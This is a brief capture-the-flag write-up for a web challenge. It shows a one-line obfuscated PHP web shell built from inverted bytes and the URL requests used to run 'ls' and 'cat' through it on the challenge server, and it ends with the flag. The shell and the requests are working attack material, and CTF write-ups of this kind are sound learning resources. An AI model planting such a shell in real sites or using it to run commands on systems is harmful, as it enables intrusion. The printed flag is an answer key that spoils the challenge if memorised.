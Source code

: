 #### Points: 60
#### Description: echo -ne '<?={${~\xa0\xb8\xba\xab}[\xa0]};' > shell.php
http://103.55.10.195:1337/shell.php 

#### _Write-up_

In this challenge I was given shell.php file. The information inside the file is as shown below.
There is a little bit complicated to solve this challenge. However, after trial and error, I get to enter the webserver. I use the parameter http://103.55.10.195:1337/shell.php?%a0=ls and there is two(2) file which is benderaaaaaa.txt and shell.php.

![](pic1.PNG)

After that I try to cat the benderaaaaaa.txt file using parameter  http://103.55.10.195:1337/shell.php?%a0=cat%20benderaaaaaa.txt and I found the flag. 

![](pic2.PNG)

#### The flag of this challenge is uniklctf20{abcdefg_G00dBy3}
